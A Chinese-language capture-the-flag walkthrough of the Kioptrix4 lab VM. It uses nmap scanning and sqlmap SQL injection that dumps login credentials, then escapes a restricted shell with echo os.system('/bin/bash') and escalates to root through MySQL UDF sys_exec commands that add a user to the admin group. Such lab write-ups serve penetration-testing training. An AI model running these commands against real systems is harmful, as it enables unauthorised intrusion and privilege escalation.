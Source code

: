 # Kioptrix4 通关笔记

---

- 笔记内容由 [xidaner](https://github.com/xidaner) 提供，我仅作部分内容修改

---

# 前期
## nmap
开机后我们发现 这个用户名和密码是不知道的

![image](../../../img/渗透/实验/Kioptrix4/1.png)

在虚拟机中要先接入到和 kali 一个网段中。然后我们要知道这个虚拟机的 ip 地址，就要用到 IP 探活。

```
nmap -sP <你虚拟机网卡的网段> /24
```

![image](../../../img/渗透/实验/Kioptrix4/2.png)

可以发现网段中一共有 4 个 ip 地址，除去本机和 kali 剩下的就是靶机的 ip 地址

---

## 扫描开放端口
```
nmap 192.168.17.130
```

![image](../../../img/渗透/实验/Kioptrix4/3.png)

可以发现，目标打开了 80 端口

![image](../../../img/渗透/实验/Kioptrix4/4.png)

目测可以注入,尝试了简单 payload，下面选择直接跑 sqlmap

---
---
---

# 中期
## sql注入

代码：

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```

![image](../../../img/渗透/实验/Kioptrix4/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

---
---
---

# 后期
## 尝试 SSH 登陆

输入用户名和密码登陆进去

![image](../../../img/渗透/实验/Kioptrix4/10.png)

这里用了 echo 命令获取交互 shell
```
echo os.system("/bin/bash")
whoami
ifconfig
```

![image](../../../img/渗透/实验/Kioptrix4/11.png)

查看服务器下的文件
```
cd /var/www/
cat checklogin.php
```

![image](../../../img/渗透/实验/Kioptrix4/12.png)

---

## 登陆 MYSQL
```
mysql -u root -p
```

---

![image](../../../img/渗透/实验/Kioptrix4/13.png)

## mysql UDF 提权

在mysql中输入
```
use mysql

create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

select sys_exec('id > /tmp/out; chown john.john /tmp/out');

```
![image](../../../img/渗透/实验/Kioptrix4/16.png)

```
use musql

select sys_exec('usermod -a -G admin ')
select sys_exec('usermod -a -G admin john');
```
![image](../../../img/渗透/实验/Kioptrix4/17.png)
![image](../../../img/渗透/实验/Kioptrix4/18.png)

在我们退出去后，尝试登陆到 root

![image](../../../img/渗透/实验/Kioptrix4/19.png)

`whoami` 确认获取 `root`
